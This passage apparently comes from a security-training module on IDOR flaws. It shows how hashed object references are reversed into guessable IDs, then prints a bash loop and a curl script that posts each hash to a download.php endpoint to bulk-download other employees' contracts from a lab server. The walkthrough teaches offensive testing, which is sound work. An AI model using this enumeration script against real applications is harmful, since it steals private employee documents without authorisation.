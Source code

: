 As we can see, this hash matches the hash in our request, meaning that we have successfully reversed the hashing technique used on the object references, turning them into IDOR's. With that, we can begin enumerating other employees' contracts using the same hashing method we used above. `Before continuing, try to write a script similar to what we used in the previous section to enumerate all contracts`.

---

## Mass Enumeration

Once again, let us write a simple bash script to retrieve all employee contracts. More often than not, this is the easiest and most efficient method of enumerating data and files through IDOR vulnerabilities. In more advanced cases, we may utilize tools like `Burp Intruder` or `ZAP Fuzzer`, but a simple bash script should be the best course for our exercise.

We can start by calculating the hash for each of the first ten employees using the same previous command while using `tr -d` to remove the trailing `-` characters, as follows:

Bypassing Encoded References

```bash
z0mb34r@htb[/htb]$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd

```

Next, we can make a `POST` request on `download.php` with each of the above hashes as the `contract` value, which should give us our final script:

Code: bash

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done

```

With that, we can run the script, and it should download all contracts for employees 1-10:

Bypassing Encoded References
